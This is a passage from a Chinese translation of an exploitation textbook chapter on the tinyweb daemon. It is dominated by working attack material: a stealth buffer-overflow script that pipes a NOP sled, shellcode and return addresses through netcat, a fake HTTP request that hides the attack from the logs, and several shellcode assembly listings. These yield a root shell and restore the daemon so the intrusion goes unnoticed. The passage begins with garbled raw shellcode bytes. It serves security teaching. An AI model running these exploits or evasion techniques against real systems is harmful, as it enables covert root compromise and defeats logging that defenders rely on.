␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣
␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣␣jfX␣1␣CRj j ␣␣ ␣jfXCh ␣␣
 f␣T$ fhzifS␣␣j OV␣␣C ␣␣␣␣I␣? Iy␣␣
                                  Rh//shh/bin␣␣R␣␣S␣␣ $␣␣␣$␣␣␣$␣␣␣$␣␣␣$␣
␣␣$␣␣␣$␣␣␣$␣␣␣$␣␣␣$␣␣␣$␣␣␣$␣␣␣$␣␣␣$␣␣␣$␣␣␣$␣␣␣$␣␣␣$␣␣␣$␣␣␣$␣␣␣$␣␣␣$␣␣␣$␣
␣␣$␣␣␣$␣␣␣$␣␣␣$␣␣␣$␣␣␣$␣␣␣$␣␣␣$␣␣␣" NOT HTTP!
reader@hacking:~/booksrc $
```

当然，在这种情况下，攻击者获得 root shell 后，他可以直接编辑日志文件，因为它们在同一个系统上。然而，在安全的网络上，日志的副本通常会发送到另一个安全服务器。在极端情况下，日志会被发送到打印机以生成硬拷贝，因此有一个物理记录。这些类型的对策可以防止在成功利用后篡改日志。

## 与众不同

尽管日志文件本身不能更改，但偶尔记录的内容可以更改。日志文件通常包含许多有效条目，而漏洞尝试则像 sore thumb 一样突出。可以欺骗 tinyweb 守护程序程序记录一个看似有效的漏洞尝试条目。查看源代码，看看在继续之前你是否能找出如何做到这一点。想法是使日志条目看起来像有效的网络请求，如下所示：

```
07/22/2007 17:57:00> From 127.0.0.1:38127 "HEAD / HTTP/1.0"   200 OK
07/25/2007 14:49:14> From 127.0.0.1:50201 "GET / HTTP/1.1"    200 OK
07/25/2007 14:49:14> From 127.0.0.1:50202 "GET /image.jpg HTTP/1.1"   200 OK
07/25/2007 14:49:14> From 127.0.0.1:50203 "GET /favicon.ico HTTP/1.1"    404 Not Found
```

这种伪装在拥有大量日志文件的大型企业中非常有效，因为有许多有效请求需要隐藏：在拥挤的商场中融入比在空旷的街道上更容易。但如何将一个庞大、丑陋的漏洞缓冲区隐藏在寓言中的羊皮中呢？

在 tinyweb 守护程序的源代码中有一个简单的错误，允许在用于日志文件输出时提前截断请求缓冲区，但在复制到内存中时不会。`recv_line()`函数使用`\r\n`作为分隔符；然而，所有其他标准字符串函数都使用空字节作为分隔符。这些字符串函数用于写入日志文件，因此通过战略性地使用这两个分隔符，可以部分控制写入日志的数据。

以下漏洞利用脚本将一个看似有效的请求放在漏洞利用缓冲区的其余部分之前。将 NOP sled 缩小以适应新数据。

### xtool_tinywebd_stealth.sh

```
#!/bin/sh
# stealth exploitation tool
if [ -z "$2" ]; then # If argument 2 is blank
   echo "Usage: $0 <shellcode file> <target IP>"
   exit
fi
FAKEREQUEST="GET / HTTP/1.1\x00"
FR_SIZE=$(perl -e "print \"$FAKEREQUEST\"" | wc -c | cut -f1 -d ' ')
OFFSET=540
RETADDR="\x24\xf6\xff\xbf" # At +100 bytes from buffer @ 0xbffff5c0
echo "target IP: $2"
SIZE=`wc -c $1 | cut -f1 -d ' '`
echo "shellcode: $1 ($SIZE bytes)"
echo "fake request: \"$FAKEREQUEST\" ($FR_SIZE bytes)"
ALIGNED_SLED_SIZE=$(($OFFSET+4 - (32*4) - $SIZE - $FR_SIZE))

echo "[Fake Request ($FR_SIZE b)] [NOP ($ALIGNED_SLED_SIZE b)] [shellcode
($SIZE b)] [ret addr ($((4*32)) b)]"
(perl -e "print \"$FAKEREQUEST\" . \"\x90\"x$ALIGNED_SLED_SIZE";
 cat $1;
 perl -e "print \"$RETADDR\"x32 . \"\r\n\"") | nc -w 1 -v $2 80
```

这个新的漏洞利用缓冲区使用空字节分隔符来终止伪装的伪造请求。空字节不会停止`recv_line()`函数，因此漏洞利用缓冲区的其余部分被复制到堆栈上。由于用于写入日志的字符串函数使用空字节作为终止符，因此伪造请求被记录，其余的漏洞利用被隐藏。以下输出显示了此漏洞利用脚本的使用情况。

```
reader@hacking:~/booksrc $ ./tinywebd
Starting tiny web daemon.
reader@hacking:~/booksrc $ nc -l -p 31337 &
[1] 7714
reader@hacking:~/booksrc $ jobs
[1]+ Running                  nc -l -p 31337 &
reader@hacking:~/booksrc $ ./xtool_tinywebd_steath.sh loopback_shell 127.0.0.1
target IP: 127.0.0.1
shellcode: loopback_shell (83 bytes)
fake request: "GET / HTTP/1.1\x00" (15 bytes)
[Fake Request (15 b)] [NOP (318 b)] [shellcode (83 b)] [ret addr (128 b)]
localhost [127.0.0.1] 80 (www) open
reader@hacking:~/booksrc $ fg
nc -l -p 31337
whoami
root
```

此漏洞利用所使用的连接会在服务器机器上创建以下日志文件条目。

```
08/02/2007 13:37:36> Starting up..
08/02/2007 13:37:44> From 127.0.0.1:32828 "GET / HTTP/1.1"      200 OK
```

尽管无法使用此方法更改记录的 IP 地址，但请求本身看起来是有效的，因此不会引起太多注意。

# 忽视明显之处

在现实场景中，入侵的其他明显迹象甚至比日志文件更明显。然而，在测试时，这是很容易被忽视的东西。如果你认为日志文件是入侵的最明显迹象，那么你忘记了服务中断。当 tinyweb 守护程序被利用时，进程被欺骗以提供远程 root shell，但它不再处理网络请求。在现实场景中，当有人尝试访问网站时，这种漏洞几乎会立即被发现。

一位熟练的黑客不仅可以破解程序以利用它，还可以将其重新组装并保持运行。程序继续处理请求，似乎什么都没发生。

## 一步一个脚印

复杂的攻击行为很难，因为可能发生很多不同的问题，而且没有根因的指示。由于追踪错误发生的位置可能需要数小时，通常最好将复杂的攻击行为分解成更小的部分。最终目标是生成一段 shellcode，它将启动 shell 同时保持 tinyweb 服务器运行。shell 是交互式的，这引起了一些复杂性，所以我们稍后再处理。现在，第一步应该是确定如何在利用它之后将 tinyweb 守护进程重新组装起来。让我们先编写一段 shellcode，使其执行一些操作以证明它已运行，然后将 tinyweb 守护进程重新组装起来以便处理进一步的 Web 请求。

由于 tinyweb 守护进程将标准输出重定向到/dev/null，因此向标准输出写入不是一个可靠的 shellcode 运行证明方法。证明 shellcode 已运行的一个简单方法就是创建一个文件。这可以通过调用`open()`然后`close()`来实现。当然，`open()`调用需要适当的标志来创建文件。我们可以查看包含文件以了解`O_CREAT`和其他所有必要的定义实际上是什么，并对参数进行所有位运算，但这有点麻烦。如果你还记得，我们之前已经做过类似的事情——记事本程序会调用`open()`，如果文件不存在，则会创建文件。strace 程序可以用于任何程序，以显示它所做的每个系统调用。在下面的输出中，这是用来验证 C 中的`open()`参数与原始系统调用相匹配的。

```
reader@hacking:~/booksrc $ strace ./notetaker test
execve("./notetaker", ["./notetaker", "test"], [/* 27 vars */]) = 0
brk(0)                                  = 0x804a000
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7fe5000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=70799, ..}) = 0
mmap2(NULL, 70799, PROT_READ, MAP_PRIVATE, 3, 0) = 0xb7fd3000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/tls/i686/cmov/libc.so.6", O_RDONLY) = 3
read(3, "\177ELF\1\1\1\0\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0\0`\1\000".., 512) = 512
fstat64(3, {st_mode=S_IFREG|0644, st_size=1307104, ..}) = 0
mmap2(NULL, 1312164, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xb7e92000
mmap2(0xb7fcd000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3,
 0x13b) =
0xb7fcd000
mmap2(0xb7fd0000, 9636, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0)
 =
0xb7fd0000
close(3)                                = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7e91000
set_thread_area({entry_number:-1 -> 6, base_addr:0xb7e916c0, limit:1048575, seg_32bit:1,
contents:0, read_exec_only:0, limit_in_pages:1, seg_not_present:0, useable:1}) = 0
mprotect(0xb7fcd000, 4096, PROT_READ)   = 0
munmap(0xb7fd3000, 70799)               = 0
brk(0)                                  = 0x804a000
brk(0x806b000)                          = 0x806b000
fstat64(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 2), ..}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7fe4000
write(1, "[DEBUG] buffer   @ 0x804a008: \'t".., 37[DEBUG] buffer @ 0x804a008: 'test'
) = 37
write(1, "[DEBUG] datafile @ 0x804a070: \'/".., 43[DEBUG] datafile @ 0x804a070:
 '/var/notes'
) = 43
`open("/var/notes", O_WRONLY|O_APPEND|O_CREAT, 0600) = -1 EACCES (Permission denied)`
dup(2)                                  = 3
fcntl64(3, F_GETFL)                     = 0x2 (flags O_RDWR)
fstat64(3, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 2), ..}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7fe3000
_llseek(3, 0, 0xbffff4e4, SEEK_CUR)     = -1 ESPIPE (Illegal seek)
write(3, "[!!] Fatal Error in main() while".., 65[!!] Fatal Error in main() while opening 
file:
Permission denied
) = 65
close(3)                                = 0
munmap(0xb7fe3000, 4096)                = 0
exit_group(-1)                          = ?
Process 21473 detached
reader@hacking:~/booksrc $ grep open notetaker.c
         fd = open(datafile, O_WRONLY|O_CREAT|O_APPEND, S_IRUSR|S_IWUSR);
                fatal("in main() while opening file");
reader@hacking:~/booksrc $
```

当通过 strace 运行时，记事本二进制文件的 suid 位没有被使用，因此它没有权限打开数据文件。但这没关系；我们只是想确保`open()`系统调用的参数与 C 中的`open()`调用参数相匹配。由于它们匹配，我们可以安全地使用记事本二进制文件中传递给`open()`函数的值作为我们 shellcode 中`open()`系统调用的参数。编译器已经完成了查找定义并将它们与位或操作组合在一起的所有工作；我们只需要在记事本二进制文件的汇编中找到调用参数。

```
reader@hacking:~/booksrc $ gdb -q ./notetaker
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
(gdb) set dis intel
(gdb) disass main
Dump of assembler code for function main:
0x0804875f <main+0>:    push   ebp
0x08048760 <main+1>:    mov    ebp,esp
0x08048762 <main+3>:    sub    esp,0x28
0x08048765 <main+6>:    and    esp,0xfffffff0
0x08048768 <main+9>:    mov    eax,0x0
0x0804876d <main+14>:   sub    esp,eax
0x0804876f <main+16>:   mov    DWORD PTR [esp],0x64
0x08048776 <main+23>:   call   0x8048601 <ec_malloc>
0x0804877b <main+28>:   mov    DWORD PTR [ebp-12],eax
0x0804877e <main+31>:   mov    DWORD PTR [esp],0x14
0x08048785 <main+38>:   call   0x8048601 <ec_malloc>
0x0804878a <main+43>:   mov    DWORD PTR [ebp-16],eax
0x0804878d <main+46>:   mov    DWORD PTR [esp+4],0x8048a9f
0x08048795 <main+54>:   mov    eax,DWORD PTR [ebp-16]
0x08048798 <main+57>:   mov    DWORD PTR [esp],eax
0x0804879b <main+60>:   call   0x8048480 <strcpy@plt>
0x080487a0 <main+65>:   cmp    DWORD PTR [ebp+8],0x1
0x080487a4 <main+69>:   jg     0x80487ba <main+91>
0x080487a6 <main+71>:   mov    eax,DWORD PTR [ebp-16]
0x080487a9 <main+74>:   mov    DWORD PTR [esp+4],eax
0x080487ad <main+78>:   mov    eax,DWORD PTR [ebp+12]
0x080487b0 <main+81>:   mov    eax,DWORD PTR [eax]
0x080487b2 <main+83>:   mov    DWORD PTR [esp],eax
0x080487b5 <main+86>:   call   0x8048733 <usage>
0x080487ba <main+91>:   mov    eax,DWORD PTR [ebp+12]
0x080487bd <main+94>:   add    eax,0x4
0x080487c0 <main+97>:   mov    eax,DWORD PTR [eax]
0x080487c2 <main+99>:   mov    DWORD PTR [esp+4],eax
0x080487c6 <main+103>:  mov    eax,DWORD PTR [ebp-12]
0x080487c9 <main+106>:  mov    DWORD PTR [esp],eax
0x080487cc <main+109>:  call   0x8048480 <strcpy@plt>
0x080487d1 <main+114>:  mov    eax,DWORD PTR [ebp-12]
0x080487d4 <main+117>:  mov    DWORD PTR [esp+8],eax
0x080487d8 <main+121>:  mov    eax,DWORD PTR [ebp-12]
0x080487db <main+124>:  mov    DWORD PTR [esp+4],eax
0x080487df <main+128>:  mov    DWORD PTR [esp],0x8048aaa
0x080487e6 <main+135>:  call   0x8048490 <printf@plt>
0x080487eb <main+140>:  mov    eax,DWORD PTR [ebp-16]
0x080487ee <main+143>:  mov    DWORD PTR [esp+8],eax
0x080487f2 <main+147>:  mov    eax,DWORD PTR [ebp-16]
0x080487f5 <main+150>:  mov    DWORD PTR [esp+4],eax
0x080487f9 <main+154>:  mov    DWORD PTR [esp],0x8048ac7
0x08048800 <main+161>:  call   0x8048490 <printf@plt>
`0x08048805 <main+166>:  mov    DWORD PTR [esp+8],0x180 0x0804880d <main+174>:  mov    DWORD PTR [esp+4],0x441 0x08048815 <main+182>:  mov    eax,DWORD PTR [ebp-16] 0x08048818 <main+185>:  mov    DWORD PTR [esp],eax 0x0804881b <main+188>: call 0x8048410 <open@plt>`
---Type <return> to continue, or q <return> to quit---q
Quit
(gdb)
```

记住，函数调用的参数将被推送到栈中，顺序是相反的。在这种情况下，编译器决定使用`mov DWORD PTR[esp+offset], value_to_push_to_stack`而不是`push`指令，但栈上构建的结构是等效的。第一个参数是文件名的指针，位于 EAX 中，第二个参数（放置在[esp+4]）是`0x441`，第三个参数（放置在[esp+8]）是`0x180`。这意味着`O_WRONLY|O_CREAT|O_APPEND`的结果是`0x441`，而`S_IRUSR|S_IWUSR`是`0x180`。以下 shellcode 使用这些值在根文件系统中创建一个名为 Hacked 的文件。

### mark.s

```
BITS 32 
; Mark the filesystem to prove you ran.
   jmp short one
   two:
   pop ebx              ; Filename
   xor ecx, ecx
   mov BYTE [ebx+7], cl ; Null terminate filename
   push BYTE 0x5        ; Open()
   pop eax
   mov WORD cx, 0x441   ; O_WRONLY|O_APPEND|O_CREAT
   xor edx, edx
   mov WORD dx, 0x180   ; S_IRUSR|S_IWUSR
   int 0x80             ; Open file to create it.
      ; eax = returned file descriptor
   mov ebx, eax         ; File descriptor to second arg
   push BYTE 0x6        ; Close ()
   pop eax
   int 0x80 ; Close file.

   xor eax, eax
   mov ebx, eax
   inc eax    ; Exit call.
   int 0x80   ; Exit(0), to avoid an infinite loop.
one:
   call two
db "/HackedX"
;   01234567
```

Shellcode 打开一个文件以创建它，然后立即关闭文件。最后，它调用 exit 以避免无限循环。下面的输出显示了使用漏洞工具使用的新 Shellcode。

```
reader@hacking:~/booksrc $ ./tinywebd
Starting tiny web daemon.
reader@hacking:~/booksrc $ nasm mark.s
reader@hacking:~/booksrc $ hexdump -C mark
00000000  eb 23 5b 31 c9 88 4b 07  6a 05 58 66 b9 41 04 31  |.#[1.K.j.Xf.A.1|
00000010  d2 66 ba 80 01 cd 80 89  c3 6a 06 58 cd 80 31 c0  |.f....j.X.1.|
00000020  89 c3 40 cd 80 e8 d8 ff  ff ff 2f 48 61 63 6b 65  |.@..../Hacke|
00000030  64 58                                             |dX|
00000032
reader@hacking:~/booksrc $ ls -l /Hacked
ls: /Hacked: No such file or directory
reader@hacking:~/booksrc $ ./xtool_tinywebd_steath.sh mark 127.0.0.1
target IP: 127.0.0.1
shellcode: mark (44 bytes)
fake request: "GET / HTTP/1.1\x00" (15 bytes)
[Fake Request (15 b)] [NOP (357 b)] [shellcode (44 b)] [ret addr (128 b)]
localhost [127.0.0.1] 80 (www) open
reader@hacking:~/booksrc $ ls -l /Hacked
-rw------- 1 root reader 0 2007-09-17 16:59 /Hacked
reader@hacking:~/booksrc $
```

## 将事物重新组合在一起

要将事物重新组合在一起，我们只需要修复由覆盖和/或 Shellcode 造成的任何附带损害，然后跳转到 `main()` 中的连接接受循环。下面的输出中 `main()` 的反汇编显示我们可以安全地返回到地址 `0x08048f64`、`0x08048f65` 或 `0x08048fb7` 以返回到连接接受循环。

```
reader@hacking:~/booksrc $ gcc -g tinywebd.c
reader@hacking:~/booksrc $ gdb -q ./a.out
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
(gdb) disass main
Dump of assembler code for function main:
0x08048d93 <main+0>:    push   ebp
0x08048d94 <main+1>:    mov    ebp,esp
0x08048d96 <main+3>:    sub    esp,0x68
0x08048d99 <main+6>:    and    esp,0xfffffff0
0x08048d9c <main+9>:    mov    eax,0x0
0x08048da1 <main+14>:   sub    esp,eax

.:[ output trimmed ]:.

0x08048f4b <main+440>:  mov    DWORD PTR [esp],eax
0x08048f4e <main+443>:  call   0x8048860 <listen@plt>
0x08048f53 <main+448>:  cmp    eax,0xffffffff
0x08048f56 <main+451>:  jne    0x8048f64 <main+465>
0x08048f58 <main+453>:  mov    DWORD PTR [esp],0x804961a
0x08048f5f <main+460>:  call   0x8048ac4 <fatal>
`0x08048f64 <main+465>:  nop 0x08048f65 <main+466>:  mov    DWORD PTR [ebp-60],0x10`
0x08048f6c <main+473>:  lea    eax,[ebp-60]
0x08048f6f <main+476>:  mov    DWORD PTR [esp+8],eax
0x08048f73 <main+480>:  lea    eax,[ebp-56]
0x08048f76 <main+483>:  mov    DWORD PTR [esp+4],eax
0x08048f7a <main+487>:  mov    eax,ds:0x804a970
0x08048f7f <main+492>:  mov    DWORD PTR [esp],eax
0x08048f82 <main+495>:  call   0x80488d0 <accept@plt>
0x08048f87 <main+500>:  mov    DWORD PTR [ebp-12],eax
0x08048f8a <main+503>:  cmp    DWORD PTR [ebp-12],0xffffffff
0x08048f8e <main+507>:  jne    0x8048f9c <main+521>
0x08048f90 <main+509>:  mov    DWORD PTR [esp],0x804962e
0x08048f97 <main+516>:  call   0x8048ac4 <fatal>
0x08048f9c <main+521>:  mov    eax,ds:0x804a96c
0x08048fa1 <main+526>:  mov    DWORD PTR [esp+8],eax
0x08048fa5 <main+530>:  lea    eax,[ebp-56]
0x08048fa8 <main+533>:  mov    DWORD PTR [esp+4],eax
0x08048fac <main+537>:  mov    eax,DWORD PTR [ebp-12]
0x08048faf <main+540>:  mov    DWORD PTR [esp],eax
0x08048fb2 <main+543>:  call   0x8048fb9 <handle_connection>
`0x08048fb7 <main+548>:  jmp    0x8048f65 <main+466>`
End of assembler dump.
(gdb)
```

这三个地址基本上都指向同一个地方。让我们使用 `0x08048fb7`，因为这是用于调用 `handle_connection()` 的原始返回地址。然而，我们还需要先修复其他一些问题。查看 `handle_connection()` 的函数前缀和后缀。这些是设置和移除堆栈帧结构的指令。

```
(gdb) disass handle_connection
Dump of assembler code for function handle_connection:
`0x08048fb9 <handle_connection+0>:       push   ebp 0x08048fba <handle_connection+1>:       mov    ebp,esp 0x08048fbc <handle_connection+3>:       push   ebx 0x08048fbd <handle_connection+4>:       sub    esp,0x644`
0x08048fc3 <handle_connection+10>:      lea    eax,[ebp-0x218]
0x08048fc9 <handle_connection+16>:      mov    DWORD PTR [esp+4],eax
0x08048fcd <handle_connection+20>:      mov    eax,DWORD PTR [ebp+8]
0x08048fd0 <handle_connection+23>:      mov    DWORD PTR [esp],eax
0x08048fd3 <handle_connection+26>:      call   0x8048cb0 <recv_line>
0x08048fd8 <handle_connection+31>:      mov    DWORD PTR [ebp-0x620],eax
0x08048fde <handle_connection+37>:      mov    eax,DWORD PTR [ebp+12]
0x08048fe1 <handle_connection+40>:      movzx  eax,WORD PTR [eax+2]
0x08048fe5 <handle_connection+44>:      mov    DWORD PTR [esp],eax
0x08048fe8 <handle_connection+47>:      call   0x80488f0 <ntohs@plt>

.:[ output trimmed ]:.

0x08049302 <handle_connection+841>:     call   0x8048850 <write@plt>
0x08049307 <handle_connection+846>:     mov    DWORD PTR [esp+4],0x2
0x0804930f <handle_connection+854>:     mov    eax,DWORD PTR [ebp+8]
0x08049312 <handle_connection+857>:     mov    DWORD PTR [esp],eax
0x08049315 <handle_connection+860>:     call   0x8048800 <shutdown@plt>
`0x0804931a <handle_connection+865>:     add    esp,0x644 0x08049320 <handle_connection+871>:     pop    ebx 0x08049321 <handle_connection+872>:     pop    ebp 0x08049322 <handle_connection+873>:     ret`
End of assembler dump.
(gdb)
```

函数开始时，函数前缀通过将它们压入堆栈来保存 EBP 和 EBX 寄存器的当前值，并将 EBP 设置为 ESP 的当前值，以便它可以作为访问堆栈变量的参考点。最后，通过从 ESP 减去 `0x644` 字节来在堆栈上保存这些堆栈变量。函数后缀在末尾通过将 `0x644` 加回到 ESP 中来恢复 ESP，并通过从堆栈中弹出保存的 EBX 和 EBP 的值来恢复寄存器中的保存值。

覆盖指令实际上位于 `recv_line()` 函数中；然而，它们写入 `handle_connection()` 堆栈帧中的数据，因此覆盖本身发生在 `handle_connection()` 中。当我们调用 `handle_connection()` 时，我们覆盖的返回地址被压入堆栈，因此函数前缀中压入堆栈的 EBP 和 EBX 的保存值将位于返回地址和可破坏缓冲区之间。这意味着当函数后缀执行时，EBP 和 EBX 将被破坏。由于我们直到返回指令才获得程序的执行控制权，因此必须在覆盖和返回指令之间的所有指令都必须执行。首先，我们需要评估这些额外的指令在覆盖之后造成的附带损害有多大。汇编指令 `int3` 创建了字节 `0xcc`，这实际上是调试断点。下面的 Shellcode 使用 `int3` 指令而不是退出。这个断点将被 GDB 捕获，允许我们检查 Shellcode 执行后的程序的确切状态。

### mark_break.s

```
BITS 32
; Mark the filesystem to prove you ran.
   jmp short one
   two:
   pop ebx              ; Filename
   xor ecx, ecx
   mov BYTE [ebx+7], cl ; Null terminate filename
   push BYTE 0x5        ; Open()
   pop eax
   mov WORD cx, 0x441   ; O_WRONLY|O_APPEND|O_CREAT
   xor edx, edx
   mov WORD dx, 0x180   ; S_IRUSR|S_IWUSR
   int 0x80             ; Open file to create it.
      ; eax = returned file descriptor
   mov ebx, eax         ; File descriptor to second arg0
   push BYTE 0x6        ; Close ()
   pop eax
   int 0x80  ; Close file.

   int3   ; zinterrupt
one:
   call two
db "/HackedX"
```

要使用此 Shellcode，首先设置 GDB 以调试 tinyweb 守护进程。下面的输出中，在调用 `handle_connection()` 之前设置了一个断点。目标是恢复在断点处找到的原始状态破坏的寄存器。

```
reader@hacking:~/booksrc $ ./tinywebd
Starting tiny web daemon.
reader@hacking:~/booksrc $ ps aux | grep tinywebd
root     23497  0.0  0.0   1636   356 ?        Ss   17:08   0:00 ./tinywebd
reader   23506  0.0  0.0   2880   748 pts/1    R+   17:09   0:00 grep tinywebd
reader@hacking:~/booksrc $ gcc -g tinywebd.c
reader@hacking:~/booksrc $ sudo gdb -q -pid=23497 --symbols=./a.out

warning: not using untrusted file "/home/reader/.gdbinit"
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
Attaching to process 23497
/cow/home/reader/booksrc/tinywebd: No such file or directory.
A program is being debugged already.  Kill it? (y or n) n
Program not killed.
(gdb) set dis intel
(gdb) x/5i main+533
0x8048fa8 <main+533>:   mov    DWORD PTR [esp+4],eax
0x8048fac <main+537>:   mov    eax,DWORD PTR [ebp-12]
0x8048faf <main+540>:   mov    DWORD PTR [esp],eax
`0x8048fb2 <main+543>:   call   0x8048fb9 <handle_connection>`
0x8048fb7 <main+548>:   jmp    0x8048f65 <main+466>
(gdb) break *0x8048fb2
Breakpoint 1 at 0x8048fb2: file tinywebd.c, line 72.
(gdb) cont
Continuing.
```

在上面的输出中，在调用`handle_connection()`之前设置了一个断点（用粗体显示）。然后，在另一个终端窗口中，使用攻击工具将新的 shellcode 投掷给它。这将使执行推进到另一个终端中的断点。

```
reader@hacking:~/booksrc $ nasm mark_break.s
reader@hacking:~/booksrc $ ./xtool_tinywebd.sh mark_break 127.0.0.1
target IP: 127.0.0.1
shellcode: mark_break (44 bytes)
[NOP (372 bytes)] [shellcode (44 bytes)] [ret addr (128 bytes)]
localhost [127.0.0.1] 80 (www) open
reader@hacking:~/booksrc $
```

回到调试终端，遇到了第一个断点。一些重要的栈寄存器被显示出来，它们显示了在调用`handle_connection()`之前（和之后）的栈设置。然后，执行继续到 shellcode 中的`int3`指令，它就像一个断点。然后再次检查这些栈寄存器，以查看 shellcode 开始执行时的状态。

```
Breakpoint 1, 0x08048fb2 in main () at tinywebd.c:72
72            handle_connection(new_sockfd, &client_addr, logfd);
(gdb) i r esp ebx ebp
esp            0xbffff7e0       0xbffff7e0
ebx            0xb7fd5ff4       -1208131596
ebp            0xbffff848       0xbffff848
(gdb) cont
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffff753 in ?? ()
(gdb) i r esp ebx ebp
esp            0xbffff7e0       0xbffff7e0
ebx            0x6      6
ebp            0xbffff624       0xbffff624
(gdb)
```

这个输出显示，在 shellcode 开始执行时，EBX 和 EBP 发生了变化。然而，检查`main()`反汇编中的指令显示，实际上并没有使用 EBX。编译器可能由于某些关于调用约定的规则而将此寄存器保存到栈上，尽管实际上并没有使用。然而，EBP 被大量使用，因为它是所有局部栈变量的参考点。由于原始的 EBP 保存值被我们的攻击覆盖，必须重新创建原始值。当 EBP 恢复到原始值时，shellcode 应该能够完成其肮脏的工作，然后像往常一样返回到`main()`。由于计算机是确定性的，汇编指令将清楚地解释如何完成所有这些。

```
(gdb) set dis intel
(gdb) x/5i main
0x8048d93 <main>:       push   ebp
0x8048d94 <main+1>:     mov    ebp,esp
0x8048d96 <main+3>:     sub    esp,0x68
0x8048d99 <main+6>:     and    esp,0xfffffff0
0x8048d9c <main+9>:     mov    eax,0x0
(gdb) x/5i main+533
0x8048fa8 <main+533>:   mov    DWORD PTR [esp+4],eax
0x8048fac <main+537>:   mov    eax,DWORD PTR [ebp-12]
0x8048faf <main+540>:   mov    DWORD PTR [esp],eax
0x8048fb2 <main+543>:   call   0x8048fb9 <handle_connection>
`0x8048fb7 <main+548>:   jmp    0x8048f65 <main+466>`
(gdb)
```

快速查看`main()`函数的前置部分，可以看到 EBP 应该比 ESP 大`0x68`字节。由于 ESP 没有被我们的攻击损坏，我们可以在 shellcode 的末尾将`0x68`加到 ESP 上，以恢复 EBP 的值。EBP 恢复到正确的值后，程序执行可以安全地返回到连接接受循环。`handle_connection()`调用的正确返回地址是在`0x08048fb7`之后的指令。下面的 shellcode 使用了这种技术。

### mark_restore.s

```
BITS 32
; Mark the filesystem to prove you ran.
   jmp short one
   two:
   pop ebx              ; Filename
   xor ecx, ecx
   mov BYTE [ebx+7], cl ; Null terminate filename
   push BYTE 0x5        ; Open()
   pop eax
   mov WORD cx, 0x441   ; O_WRONLY|O_APPEND|O_CREAT
   xor edx, edx
   mov WORD dx, 0x180   ; S_IRUSR|S_IWUSR
   int 0x80             ; Open file to create it.
      ; eax = returned file descriptor
   mov ebx, eax         ; File descriptor to second arg
   push BYTE 0x6        ; Close ()
   pop eax
   int 0x80  ; close file

   lea ebp, [esp+0x68]  ; Restore EBP.
   push 0x08048fb7      ; Return address.
   ret                  ; Return
one:
   call two
db "/HackedX"
```

当汇编并用于攻击时，这个 shellcode 将在标记文件系统后恢复 tinyweb 守护进程的执行。tinyweb 守护进程甚至不知道发生了什么。

```
reader@hacking:~/booksrc $ nasm mark_restore.s
reader@hacking:~/booksrc $ hexdump -C mark_restore
00000000  eb 26 5b 31 c9 88 4b 07  6a 05 58 66 b9 41 04 31  |.&[1.K.j.Xf.A.1|
00000010  d2 66 ba 80 01 cd 80 89  c3 6a 06 58 cd 80 8d 6c  |.f....j.X..l|
00000020  24 68 68 b7 8f 04 08 c3  e8 d5 ff ff ff 2f 48 61  |$hh...../Ha|
00000030  63 6b 65 64 58                                    |ckedX|
00000035
reader@hacking:~/booksrc $ sudo rm /Hacked
reader@hacking:~/booksrc $ ./tinywebd
Starting tiny web daemon.
reader@hacking:~/booksrc $ ./xtool_tinywebd_steath.sh mark_restore 127.0.0.1
target IP: 127.0.0.1
shellcode: mark_restore (53 bytes)
fake request: "GET / HTTP/1.1\x00" (15 bytes)
[Fake Request (15 b)] [NOP (348 b)] [shellcode (53 b)] [ret addr (128 b)]
localhost [127.0.0.1] 80 (www) open
reader@hacking:~/booksrc $ ls -l /Hacked
-rw------- 1 root reader 0 2007-09-19 20:37 /Hacked
reader@hacking:~/booksrc $ ps aux | grep tinywebd
root     26787  0.0  0.0   1636   420 ?        Ss   20:37   0:00 ./tinywebd
reader   26828  0.0  0.0   2880   748 pts/1    R+   20:38   0:00 grep tinywebd
reader@hacking:~/booksrc $ ./webserver_id 127.0.0.1
The web server for 127.0.0.1 is Tiny webserver
reader@hacking:~/booksrc $
```

## 儿童劳工

现在难题已经解决，我们可以使用这个技术来静默地启动一个 root shell。由于 shell 是交互式的，但我们仍然希望进程处理 web 请求，因此我们需要进行进程的 fork。`fork()`调用创建了一个子进程，它是父进程的精确副本，除了在子进程中返回`0`，而在父进程中返回新的进程 ID。我们希望我们的 shellcode 能够 fork，并且子进程提供 root shell，而父进程恢复 tinywebd 的执行。在下面的 shellcode 中，loopback_shell.s 的开头添加了几条指令。首先，执行 fork 系统调用，并将返回值存入 EAX 寄存器。接下来的几条指令检查 EAX 是否为零。如果 EAX 为零，我们跳转到`child_process`以启动 shell。否则，我们处于父进程中，因此 shellcode 将执行恢复到 tinywebd。

